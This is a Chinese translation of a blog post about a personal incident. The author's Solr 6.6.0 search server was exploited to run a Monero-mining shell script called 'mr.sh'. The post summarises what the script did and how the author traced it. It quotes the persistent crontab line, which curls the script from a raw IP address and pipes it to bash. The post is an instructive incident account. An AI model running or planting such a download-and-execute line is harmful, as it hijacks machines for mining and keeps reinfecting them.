



# 我被 Sh 先生黑的那次

> 原文：<https://medium.com/swlh/the-time-i-has-hacked-by-mr-sh-583db12b7d8f>

2017 年，我零对一地开发了一个 YouTube 搜索网站，该网站使用字幕数据的索引，帮助用户浏览长视频频道。



搜索使用 Solr-6.6.0 来存储和检索字幕数据的索引。我知道 Solr 使用了大量的 RAM，但我没想到在我的网站上线几天后，它就开始消耗我服务器 15%的 CPU。



虽然出乎意料，但 15%的 CPU 消耗并没有引发任何危险信号。然而，如果我更加关注的话，使用量的突然增加应该会通知我一个问题。我停止关注了几个月，直到我开始收到关于 100%使用率的电子邮件。



我不知道的是，有人利用 Solr-6.6.0 中的[漏洞在我的服务器上运行一个挖掘 Monero 的 sh 脚本，出于某种原因，他们决定将他们的哈希能力从不明显的 15% CPU 增加到严重的 100%。](https://www.mysonicwall.com/sonicalert/searchresults.aspx?ev=article&id=1096)

以下是脚本工作原理的概述:

1.  终止 9 所有消耗超过 40% CPU 的进程
2.  Kill9 任何预先存在的恶意软件(由之前运行此脚本导致)
3.  将 monero miner 下载到/tmp 并运行它
4.  创建一个 crontab 来重新下载并每分钟重新运行这个 sh 脚本。

这个剧本叫做[Sh 先生](https://gist.github.com/SlightlyCyborg/7c9c4bcd27de4311a7678e362227c8b8)，在 htop 中观看令人愤怒。每次我试图终止挖掘过程，它都会在一分钟后重新产生。我不得不离开的唯一线索是，在我的 CPU 变回空间加热器之前，一连串的 procs 直接开始运转。

我最后做了一个 htop 在整个周期中的延时截图，然后一帧一帧地分析它，直到我看到下载`mr.sh`的`curl`进程

我自己蜷缩在 sh 先生体内，最终发现它是如何不断逃避我的根除努力:`crontab`。之后我所要做的就是使用`crontab -e`编辑 crontab 文件并从其中删除`curl`调用。这是那个老太婆的样子。

```
* * * * curl [http://192.99.142.248:8220/mr.sh](http://192.99.142.248:8220/mr.sh) | bash -sh > /dev/null 2>&1
```

无论如何，这是我在 linux 服务器上发现的第一个恶意软件的故事。